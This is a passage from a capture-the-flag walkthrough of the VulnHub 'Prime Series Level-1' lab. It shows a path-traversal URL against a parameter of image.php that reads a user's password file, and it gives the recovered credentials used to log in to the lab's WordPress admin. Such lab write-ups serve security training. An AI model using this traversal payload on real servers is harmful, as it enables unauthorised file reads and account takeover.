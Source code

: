 ![05.png](https://github.com/sigwotts/vulnhub/blob/main/Prime_Series_Level-1/05.png)

### So we tried on "/home/victor/password.txt" on the url, but it didn't worked, so i tried on the other user and i got the password i.e
```
http://192.168.1.85/image.php?secrettier360=../../../home/saket/password.txt
```
```
follow_the_ippsec
```
### So we tried this to login via ssh, but it failed
### Afterwords i tried to use the creds in wordpress admin page and there we sucessfull login to the wordpress dashboard
```
victor:follow_the_ippsec 
```
